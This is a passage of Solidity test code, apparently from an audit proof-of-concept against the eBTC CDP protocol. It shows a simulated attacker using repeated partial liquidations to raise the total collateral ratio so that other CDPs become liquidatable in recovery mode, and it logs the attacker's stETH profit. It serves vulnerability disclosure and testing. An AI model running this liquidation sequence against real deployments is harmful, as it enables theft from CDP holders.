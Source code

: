 ```solidity
        console.log("Is CDP_133ICR liquidated? ", !sortedCdps.contains(cdpIds[4]));

        console.log("CDP size: ", sortedCdps.getSize());

        uint256 _stETHBalance = collateral.balanceOf(user);
        uint256 _eBTCBalance = eBTCToken.balanceOf(user);
        uint256 userRevenue = _stETHBalance - stETHBalance - collateral.getSharesByPooledEth(((eBTCBalance - _eBTCBalance) * DECIMAL_PRECISION) / price);
        console.log("\n");
        console.log("Final user revenue(stETH in wei): ", userRevenue);
    }

    function test_PoC2LiquidationAttackInRecoveryMode() public {
        console.log("--- Attacker will liquidate all CDPs (TCR <= ICR < CCR) and some CDPs (ICR < TCR < CCR) ---");
        console.log("---------------------------- Start Attack ----------------------------");
        uint256 TCR;
        uint256 targetICR;
        uint256 icr0;
        uint256 deltaDebt;

        uint256 price = priceFeedMock.fetchPrice();
        bool isAvailableToLiq = _checkAvailableToLiq(cdpIds[1], price);
        console.log("Is available to liquidate CDP_122ICR? ", isAvailableToLiq);
        isAvailableToLiq = _checkAvailableToLiq(cdpIds[0], price);
        console.log("Is available to liquidate CDP_110ICR? ", isAvailableToLiq);
        if (isAvailableToLiq) {
            console.log("\n");
            console.log("- Liquidate CDP_110ICR partially: TCR -> 122%");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            targetICR = cdpManager.getSyncedICR(cdpIds[1], price);
            deltaDebt = _calcDebtForDesiredTCRWithLastCDP(targetICR, activePool.getSystemCollShares(), activePool.getSystemDebt(), price, icr0);
            console.log("deltaDebt: ", deltaDebt);
            vm.prank(user);
            cdpManager.partiallyLiquidate(cdpIds[0], deltaDebt, cdpIds[0], cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR: ", TCR);

            isAvailableToLiq = _checkAvailableToLiq(cdpIds[1], price);
            console.log("Is available to liquidate CDP_122ICR? ", isAvailableToLiq);

            if (isAvailableToLiq) {
                console.log("- Liquidate CDP_122ICR fully");
                vm.prank(user);
                cdpManager.liquidate(cdpIds[1]);

                TCR = cdpManager.getCachedTCR(price);
                console.log("TCR after LiqCDP_122ICR: ", TCR);
            }

            console.log("\n");
            console.log("- Liquidate CDP_110ICR partially: TCR -> 123%");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            targetICR = cdpManager.getSyncedICR(cdpIds[2], price);
            deltaDebt = _calcDebtForDesiredTCRWithLastCDP(targetICR, activePool.getSystemCollShares(), activePool.getSystemDebt(), price, icr0);
            console.log("deltaDebt: ", deltaDebt);
            vm.prank(user);
            cdpManager.partiallyLiquidate(cdpIds[0], deltaDebt, cdpIds[0], cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
```
